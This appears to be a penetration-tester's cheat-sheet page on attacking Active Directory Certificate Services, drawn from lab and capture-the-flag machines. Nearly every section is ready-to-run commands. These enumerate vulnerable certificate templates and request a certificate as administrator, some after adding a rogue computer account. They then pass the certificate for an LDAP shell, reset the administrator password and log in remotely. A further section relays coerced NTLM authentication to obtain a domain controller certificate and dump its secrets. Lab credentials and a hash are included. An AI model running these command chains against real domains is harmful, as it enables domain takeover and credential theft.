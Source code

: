 # Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Users)</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Computers)</summary>

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

```bash
# Find vulnerable certificates templates
.\Certify.exe find /vulnerable

# Checking MachineAccountQuota for svc_ldap (to add new computers)
nxc ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq

# Add new computer:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' htb/svc_ldap  -dc-ip 10.10.11.222

# Request certificate:
certipy-ad req -u 'myComputer$'@authority.htb -p h4x -upn administrator@authority.htb -target authority.htb -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.10.11.222

# Save into key and certificate files:
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Use Pass-the-cert to obtain a LDAP shell:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i 10.10.11.222 -u administrator
```

</details>

<details>

<summary>Exploitation (NTLM Relay to ADCS HTTP Endpoints)</summary>

```bash
# Finding ESC8 Vulnerability (Web Enrollment over HTTP)
certipy-ad find -u 'adam@corp.com' -p lab -dc-ip 192.168.167.60 -enabled
cat 20250705224614_Certipy.txt
```

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption><p>DomainController certificate template is a default template in ADCS and allows both Client and Server Authentication</p></figcaption></figure>

```bash
# Coerce DC (.60) to authenticate with us (.245) via NTLM, (.61) is CA --> relay authentication for certificate request:
impacket-ntlmrelayx -t http://192.168.167.61/certsrv/certfnsh.asp --adcs --template DomainController -smb2support

coercer coerce --target-ip 192.168.167.60 --l 192.168.45.245 -u adam -p lab --filter-method-name EfsRpcAddUsersToFile
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption><p>Obtained a certificate based on the DomainController certificate template in a pfx format.</p></figcaption></figure>

```bash
# Authenticate to DC as DC machine account with Certipy
certipy-ad auth -pfx DC08$.pfx -dc-ip 192.168.167.60
```

<figure><img src=".gitbook/assets/image (370).png" alt=""><figcaption><p>Got DC machine account and hash</p></figcaption></figure>

```bash
impacket-secretsdump corp.com/'dc08$'@192.168.167.60 -hashes :0e0b464f36ca316cbd3170dad42bea33
```

<figure><img src=".gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

</details>
